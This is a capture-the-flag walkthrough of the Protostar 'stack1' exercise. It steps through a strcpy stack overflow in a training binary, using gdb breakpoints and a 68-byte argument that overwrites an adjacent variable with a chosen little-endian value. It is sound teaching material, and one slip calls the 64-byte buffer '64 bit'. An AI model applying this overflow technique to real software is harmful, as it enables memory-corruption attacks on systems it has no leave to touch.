 ```yaml
---
title: "Protostar stack1 walkthrough"
date: 2020-05-21
tags: [ctf, protostar, stack1, walkthrough]
header:
  image: "/images/protostar/protostar.png"
---
```



# Protostar exercises - [stack1](https://exploit-exercises.lains.space/protostar/stack1/)

#### About
This level looks at the concept of modifying variables to specific values in the program, and how the variables are laid out in memory.

This level is at /opt/protostar/bin/stack1

Hints

If you are unfamiliar with the hexadecimal being displayed, “man ascii” is your friend.
Protostar is little endian

#### Source code:
```
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];

  if(argc == 1) {
      errx(1, "please specify an argument\n");
  }

  modified = 0;
  strcpy(buffer, argv[1]);

  if(modified == 0x61626364) {
      printf("you have correctly got the variable to the right value\n");
  } else {
      printf("Try again, you got 0x%08x\n", modified);
  }
}
```

#### Procedure:

Similar to the previous one, the value of 'modified' variable needs to be changed. But here, it need to be changed to a specific value.

There is no `gets` call in this program. Instead, `strcpy` is used to copy the argument into buffer. 

##### Vulnerability:

`strcpy` is used to copy a string. if the destination string of a `strcpy()` is not large enough, then buffer overflow happens. We can use this to overflow the 64 bit buffer and write into the memory address where 'modified' is stored.

##### Disassembly:

![disassembly]({{site.url}}{{site.baseurl}}/images/protostar/stack1/disassembly.png)

We can see that 'modified' variable is at $esp+0x5c. Lets put breakpoints before and after `strcpy` and create hooks

```
break *0x080484a2
break *0x080484a7
define hook-stop
>info registers
>x/24wx $esp
>x/2i $eip
>end
```

Lets run with argument AAAAAAAA
```
r AAAAAAAA
```

We can see that addresses 0xbffff75c and 0xbffff760 are overwritten with A's. Also, 'modified' is stored at 0xbffff79c and has value of 0x00000000

![registers]({{site.url}}{{site.baseurl}}/images/protostar/stack1/registers.png)

We need to overwrite from 0xbffff75c to 0xbffff79c. That is 40 + 4 words (68 bytes)
Lets create a string of 68 bytes and make sure variable is overwritten
` r AAAAAAAABBBBBBBBCCCCCCCCDDDDDDDDEEEEEEEEFFFFFFFFGGGGGGGGHHHHHHHHIIII`

![overwrite]({{site.url}}{{site.baseurl}}/images/protostar/stack1/overwrite.png)

We can see that 0xbffff79c now has a value of 0x49494949 or IIII

Now we need to change I's in string to 0x61626364 (abcd)
Lets run with this argument 
`r AAAAAAAABBBBBBBBCCCCCCCCDDDDDDDDEEEEEEEEFFFFFFFFGGGGGGGGHHHHHHHHabcd`

![try]({{site.url}}{{site.baseurl}}/images/protostar/stack1/try.png)

Now we can see that 'modified' is changed to 0x64636261. This is because prostar is little endian (as mentioned in hints). Lets reverse abcd to dcba and try

`r AAAAAAAABBBBBBBBCCCCCCCCDDDDDDDDEEEEEEEEFFFFFFFFGGGGGGGGHHHHHHHHdcba`

![done]({{site.url}}{{site.baseurl}}/images/protostar/stack1/done.png)

Now, the variable has 0x61626364 and the program has passed
